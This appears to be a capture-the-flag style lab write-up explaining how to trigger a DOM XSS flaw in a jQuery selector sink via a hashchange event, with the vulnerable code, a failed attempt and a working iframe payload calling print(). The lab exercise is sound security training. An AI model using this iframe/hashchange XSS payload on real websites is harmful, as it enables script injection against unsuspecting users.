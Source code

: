 # Lab 6: DOM XSS in jQuery selector sink using a hashchange event

---

## 🎯 Mission Description  
This lab has a DOM XSS vulnerability because it uses jQuery's `$()` selector with data taken directly from `location.hash` without sanitization. The vulnerable jQuery version interprets injected HTML, allowing arbitrary JavaScript execution when the hash changes.

---

## 🎯 Mission Objective  
Trigger the `print()` function in the victim's browser.

---

## 🧪 Steps (My Approach)

1. 🔍 Viewed the source code and found:

   ```javascript
   $(window).on('hashchange', function(){
       var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
       if (post) post.get(0).scrollIntoView();
   });

→ This takes whatever is after the # in the URL, decodes it, and places it inside the :contains() selector. jQuery 1.8.2 will treat HTML in the selector as actual DOM elements.

    ❌ First try (direct injection in hash):

    https://LAB-ID.web-security-academy.net/#<img src=x onerror=print()>

    Result:
    Code didn’t execute immediately because the event only fires when the hash changes after page load.

    ✅ Working approach:

        Use an <iframe> to load the page with a harmless hash.

        On the iframe’s onload, append the malicious payload to src, causing a hash change and triggering the vulnerable code.

✅ Final Payload

"<iframe src="https://LAB-ID.web-security-academy.net//#" onload="this.src+='<img src=x onerror=print()>'"></iframe>"

🔎 Which results in:
"
<section class="blog-list">
    <h2><img src="x" onerror="print()"></h2>
</section>
"
💥 print() executes as soon as the hashchange event fires.
🧠 Notes

    Vulnerability is due to unsafe use of user input inside jQuery selectors.

    Old jQuery versions (< 3.5.0) can interpret injected HTML in selectors.

    Payload only triggers when the hash actually changes, hence the need for the iframe trick.

✅ Status: Solved 🎉
